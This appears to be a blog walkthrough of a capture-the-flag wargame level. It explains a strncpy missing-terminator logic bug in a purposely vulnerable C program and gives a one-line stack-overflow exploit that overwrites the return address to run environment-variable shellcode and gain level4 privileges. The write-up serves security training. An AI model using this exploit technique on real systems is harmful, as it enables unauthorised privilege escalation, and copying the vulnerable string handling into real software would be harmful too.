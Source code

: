 ![Logo](/assets/images/belts-orange.png)

In this post we'll continue with level3 of the **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing with a slightly more interesting vulnerability, an application logic vulnerability, again involving strings operations.
To review the previous levels, check the link below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level3@hacking.certifiedsecure.com -p 8266
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.



   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally :
```bash
$ checksec.sh --file level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level3
```

NX is disabled and again there is no stack canary. Good news. Let's verify that the stack is executable:

```
$ readelf -lW level3 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

In this case we have a logic vulnerability. Notice that now string copying is done in a more secure way, using the [strncpy](http://www.cplusplus.com/reference/cstring/strncpy/) function, which receives as its 3rd parameter a maximum number of character to be copied from source to destination buffer. There is a very important caveat here, however:
> No null-character is implicitly appended at the end of _destination_ if _source_ is longer than _num_. Thus, in this case, destination shall not be considered a null terminated C string (reading it as such would overflow).

```c
#include <string.h>
#include <stdio.h>

void foo(char* a, char* b) {
        char buf1[16];
        char buf2[16];
        char buf3[16];
        int i;

        for (i=0; i<16;i++) {
                buf2[i] = "A";
        }

        if (strlen(a) <= sizeof(buf3)) {
[1]             strncpy(buf3, a, sizeof(buf3));


[2]             if (strlen(b) <= strlen(buf3)) {
[3]                     strcpy(buf1, b);
                }
        }
}

int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: %s <a> <b>\n", argv[0]);

                return -1;
        }

        foo(argv[1], argv[2]);
        return 0;
}
```


* So the call to **strncpy(buf3, a, sizeof(buf3)) [1]** will **not** add a null terminator to **buf3** if parameter **a** (first user input!) is exactly 16 characters.
* Following this, the call to **strlen(buf3) [2]** will go over the bounds of the string **buf3** (no null terminator for **buf3**) and will return a larger value than expected. 
* This will lead to the execution of the **strcpy(buf1, b) [3]** call, which will overflow **buf1** with **b** (second user input), thus giving us the posibility to control again the return address from function **foo**.


## 2 - Exploit

For all the steps describe before to work, the layot of the stack of function **foo** is very important. Let's check that in IDA. After a bit of renaming, the variables on the stack look like this: 

![Logo](/assets/images/bm3-1.png)

Steps:
* We need a payload of 16 characters in **a**.
* We need to put 32 bytes in **buf1** from **b** in order to overwrite the return address. 
* We'll use the same trick with the shellcode placed in an environment variable, and overwrite EIP with the address of the variable.

```bash
$ ./level3 $(python -c 'print "B"*16') $(python -c 'print "C"*32 + "\xd3\xd8\xff\xff"')
$ id
uid=1004(level3) gid=1004(level3) euid=1005(level4) groups=1005(level4),1004(level3)
```

## 3 - Profit

```
$ /home/level4/victory
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____    
                            / -_) _ \(_-</ / _ `/ _ \   
                            \__/_//_/___/_/\_, /_//_/   
                                          /___/         
                                          
Subject: Victory!                         

Congrats, you have solved level3. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level3 @ binary mastery ensign)
   * the exploit 
   
You can now start with level4. If you want, you can log in
as level4 with password  [REDACTED] 
```

In the next level we'll exploit more buffer overflows, but this time over the network.
